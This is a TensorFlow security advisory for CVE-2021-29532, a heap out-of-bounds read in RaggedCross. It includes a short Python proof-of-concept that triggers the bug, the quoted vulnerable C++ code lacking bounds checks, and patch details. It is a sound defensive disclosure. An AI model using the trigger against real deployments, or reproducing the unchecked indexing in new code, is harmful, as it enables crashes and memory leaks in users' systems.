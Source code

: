 ## TFSA-2021-021: Heap out of bounds read in `RaggedCross`

### CVE Number
CVE-2021-29532

### Impact
An attacker can force accesses outside the bounds of heap allocated arrays by
passing in invalid tensor values to `tf.raw_ops.RaggedCross`:

```python
import tensorflow as tf

ragged_values = []
ragged_row_splits = []
sparse_indices = []
sparse_values = []
sparse_shape = []

dense_inputs_elem = tf.constant([], shape=[92, 0], dtype=tf.int64)
dense_inputs = [dense_inputs_elem]

input_order = "R"
hashed_output = False
num_buckets = 0
hash_key = 0

tf.raw_ops.RaggedCross(ragged_values=ragged_values,
    ragged_row_splits=ragged_row_splits,
    sparse_indices=sparse_indices,
    sparse_values=sparse_values,
    sparse_shape=sparse_shape,
    dense_inputs=dense_inputs,
    input_order=input_order,
    hashed_output=hashed_output,
    num_buckets=num_buckets,
    hash_key=hash_key,
    out_values_type=tf.int64,
    out_row_splits_type=tf.int64)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/efea03b38fb8d3b81762237dc85e579cc5fc6e87/tensorflow/core/kernels/ragged_cross_op.cc#L456-L487)
lacks validation for the user supplied arguments:

```cc
int next_ragged = 0;
int next_sparse = 0;
int next_dense = 0;
for (char c : input_order_) {
  if (c == 'R') {
    TF_RETURN_IF_ERROR(BuildRaggedFeatureReader(
        ragged_values_list[next_ragged], ragged_splits_list[next_ragged],
        features));
    next_ragged++;
  } else if (c == 'S') {
    TF_RETURN_IF_ERROR(BuildSparseFeatureReader(
        sparse_indices_list[next_sparse], sparse_values_list[next_sparse],
        batch_size, features));
    next_sparse++;
  } else if (c == 'D') {
    TF_RETURN_IF_ERROR(
        BuildDenseFeatureReader(dense_list[next_dense++], features));
  }
  ...
}
```

Each of the above branches call a helper function after accessing array elements
via a `*_list[next_*]` pattern, followed by incrementing the `next_*` index.
However, as there is no validation that the `next_*` values are in the valid
range for the corresponding `*_list` arrays, this results in heap OOB reads.

### Patches
We have patched the issue in GitHub commit
[44b7f486c0143f68b56c34e2d01e146ee445134a](https://github.com/tensorflow/tensorflow/commit/44b7f486c0143f68b56c34e2d01e146ee445134a).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
